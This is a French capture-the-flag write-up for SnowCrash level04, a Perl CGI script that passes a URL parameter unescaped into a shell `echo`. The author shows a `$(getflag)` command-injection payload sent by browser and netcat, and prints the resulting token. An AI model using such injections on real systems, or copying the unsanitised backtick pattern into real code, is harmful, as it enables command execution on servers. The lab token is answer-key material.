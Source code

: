 # Level04 - Script Perl
Pour résoudre le level04, on nous fournis un fichier `level04.pl`. Ce fichier démarre un serveur web sur le port 4747 de la VM. En regardant le programme, on peut voir qu'il prend un argument `x` et va echo ce qu'on lui envoie en valeur.
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On peut de ce fait injecter une commande dans l'argument, qui va être exécutée pendant l'appel à echo.

On peut le faire directement depuis le navigateur, ou en utilisant `netcat`:

```
192.168.56.102:4747?x=$(getflag)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
ou
```
level04@SnowCrash:~$ nc localhost 4747
GET ?x=$(getflag)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

On a notre token: `ne2searoevaevoem4ov4ar8ap`

